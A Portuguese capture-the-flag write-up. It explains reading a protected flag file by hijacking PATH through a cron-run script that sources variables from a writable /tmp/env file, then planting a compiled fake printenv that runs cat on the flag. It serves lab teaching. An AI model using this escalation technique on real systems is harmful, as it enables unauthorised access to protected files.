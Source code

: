# British Punctuality - CTF Extra

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:

![CTF Opcional 1 a](../Images/ctfopcional1a.png)

Verificou-se também que `/tmp` é o único diretório onde o nosso utilizador tem permissões de escrita.
Neste diretório existe um ficheiro `last_log.txt` que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Inicialmente, o conteúdo de `last_log ` é o seguinte:

```note
SHELL=/bin/sh
PWD=/home/flag_reader
LOGNAME=flag_reader
HOME=/home/flag_reader
SHLVL=2
PATH=/bin:/usr/bin:/usr/local/bin
_=/bin/printenv
I'm going to check if the flag exists!
File exists!!
TODO - Implement this in the near future!
```

Quando o **cronscript** é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar dentro dele um binário printenv que execute um código controlado por nós:

```bash
$ mkdir myenv
$ cd myenv
$ touch printenv.c
```

Este ficheiro c terá o código que mostra a flag:

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

Este código é colocado em printenv.c linha a linha da seguinte forma:

```bash
$ echo "linha" >> printenv.c
```

No final compilamos o código:

```bash
$ gcc -Wall -o printenv printenv.c
```

No entanto, como alteramos a variável de ambiente PATH, o programa não vai encontrar o binário `cat` no novo diretório, pelo que temos de o copiar para lá: 

```
$ cp /bin/cat /tmp/myenv
```

Finalmente, esperamos uma nova execução de `my_script.sh` através do **cronscript** e verificou-se que o `last_log` continha a flag tal como previsto:

![CTF Opcional 1 b](../Images/ctfopcional1b.png)

